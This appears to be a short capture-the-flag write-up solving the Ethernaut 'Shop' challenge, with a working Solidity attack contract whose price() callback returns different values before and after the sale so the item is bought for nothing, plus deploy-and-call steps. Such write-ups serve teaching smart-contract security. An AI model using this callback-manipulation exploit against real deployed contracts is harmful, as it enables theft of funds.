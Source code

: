 # Shop

In this challenge we implement an interface and override the function. The real catch is that on the first call it must return a different value, than it does the second time. See the ternary operation.

```shell
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Shop.sol";

contract ShopAttack is Buyer {

    Shop shop;

    constructor(address _address) public {
        shop = Shop(_address);
    }

    function price() external view override returns (uint) {
        return shop.isSold() ? 0 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```
## Hack:

Step 1:

Deploy w/ ethernaut instance address as constructor arg

Step2:

call attack function